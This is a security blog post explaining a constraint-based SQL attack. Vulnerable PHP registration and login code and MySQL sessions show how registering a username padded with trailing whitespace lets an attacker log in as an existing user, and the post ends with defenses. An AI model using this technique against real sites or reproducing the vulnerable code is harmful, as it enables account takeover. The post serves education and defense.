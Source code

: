 ```yaml
---

layout: post
title: "SQL Attack (Constraint-based)"
author: "Dhaval Kapil"
excerpt: "Demonstrating a constraint-based SQL Attack"
keywords: sql, trailing, space, length, vulnerability, constraint, database, security

---
```


> ## Introduction

It is good to know that nowadays, developers have started paying attention to security while building websites. Almost everyone is aware of [SQL Injection](https://www.owasp.org/index.php/SQL_Injection). Herein, I would like to discuss another kind of vulnerability related to SQL databases which is as dangerous as SQL Injection, and yet not as common. I shall demonstrate the attack and discuss various defense strategies.

_Disclaimer_: This post is **NOT** about SQL Injection.

> ## Background

Recently, I came across an interesting piece of code. The developer had tried to make every possible attempt to secure access to the database. The following code is run whenever a new user tries to register:

```php
<?php
// Checking whether a user with the same username exists
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);
$query = "SELECT * 
          FROM users 
          WHERE username='$username'";

$res = mysql_query($query, $database);
if($res) { 
  if(mysql_num_rows($res) > 0) {
    // User exists, exit gracefully
    .
    .
  }
  else {
    // If not, only then insert a new entry
    $query = "INSERT INTO users(username, password)
              VALUES ('$username','$password')";
    .
    .
  }
}
```

To check login, the following code is used:

```php
<?php
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);

$query = "SELECT username FROM users
          WHERE username='$username'
              AND password='$password' ";

$res = mysql_query($query, $database);
if($res) {
  if(mysql_num_rows($res) > 0){
      $row = mysql_fetch_assoc($res);
      return $row['username'];
  }
}
return Null;
```

Security considerations?

- Filter user input parameters? - **CHECK**

- Use single quotes(') for additional security? - **CHECK**

Cool, what could go wrong?

Well, the attacker can log in as **ANY** user!

> ## The Attack

It is crucial to understand a few points before talking about the attack.

1. While performing string handling in SQL, whitespace characters at the end of the string are removed. In other words, `'vampire'` is treated similarly to `'vampire   '`. This is true for most of the cases, such as strings in WHERE clause or in INSERT statements. For eg., the following query shall return results with even username as `'vampire'`.

   ```sql
   SELECT * FROM users WHERE username='vampire     ';
   ```
    
   Exceptions do exist such as the LIKE clause. Note that this trimming of trailing whitespaces is done mostly during 'string comparison'. This is because, [internally](https://support.microsoft.com/en-in/kb/316626), SQL pads one of the strings with whitespaces so that their length matches before comparing them.

2. In any INSERT query, SQL enforces maximum length constraints on `varchar(n)` by just using the first 'n' characters of the string(in case the length of the string is more than 'n' characters). e.g. if a particular column has a length constraint of '5' characters, then inserting 'vampire' will result in the insert of only 'vampi'.

Now, let us setup a testing database to demonstrate the attack.

```sql
vampire@linux:~$ mysql -u root -p

mysql> CREATE DATABASE testing;
Query OK, 1 row affected (0.03 sec)

mysql> USE testing;
Database changed
```

I am going to create a table `users` with two columns, `username` and `password`. Both of these fields will be limited to 25 characters. Next, I will insert a dummy row with 'vampire' as the username and 'my_password' as the password.

```sql
mysql> CREATE TABLE users (
    ->   username varchar(25),
    ->   password varchar(25)
    -> );
Query OK, 0 rows affected (0.09 sec)

mysql> INSERT INTO users
    -> VALUES('vampire', 'my_password');
Query OK, 1 row affected (0.11 sec)

mysql> SELECT * FROM users;
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)
```

To demonstrate the trimming of trailing whitespaces, consider the following query:

```sql
mysql> SELECT * FROM users
    -> WHERE username='vampire       ';
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)
```

Now, assume that a vulnerable website uses the earlier mentioned PHP code to handle user registration and login. To break into any user's account(in this case 'vampire'), all that is needed to be done is to register with a username 'vampire[Many whitespaces]1' and a random password. The chosen username should be such that the first 25 characters should consist only of 'vampire' and whitespaces. This will help in bypassing the query which checks whether a particular username already exists or not.

```sql
mysql> SELECT * FROM users
    -> WHERE username='vampire                   1';
Empty set (0.00 sec)
```

Note that while running SELECT queries, SQL **_does not_** shorten the string to 25 characters. Hence, the complete string is searched and no result is obtained. Next, when an INSERT query is run, only the first 25 characters are inserted.

```sql
mysql>   INSERT INTO users(username, password)
    -> VALUES ('vampire                   1', 'random_pass');
Query OK, 1 row affected, 1 warning (0.05 sec)

mysql> SELECT * FROM users
    -> WHERE username='vampire';
+---------------------------+-------------+
| username                  | password    |
+---------------------------+-------------+
| vampire                   | my_password |
| vampire                   | random_pass |
+---------------------------+-------------+
2 rows in set (0.00 sec)
```

Great, now there are two users which will be returned when searching for 'vampire'. Note that the second username is actually 'vampire' plus 18 trailing whitespaces. Now, if logged in with 'vampire' and 'random_pass', any SELECT query that searches by the username will return the first and the original entry. This will enable the attacker to log in as the original user.

This attack has been successfully tested on MySQL and SQLite. I believe it works in other cases as well.

> ## Defenses

Clearly, this is a major vulnerability and needs to be taken care of while developing secure software. A few of the defense measures that can be taken are as follows:

1. UNIQUE constraint should be added to columns which are required/expected to be unique. This actually is a very important rule concerning software development. Even if your code tries to maintain integrity, always define your data properly. With a UNIQUE constraint on 'username', inserting another entry will not be possible. Both the strings will be detected equal and the INSERT query will fail.

2. Always prefer using 'id' as the primary key for your database table. Also, data should be tracked by their id within the program.

3. For added security, you can also manually trim input parameters to a particular length(as set in the database).
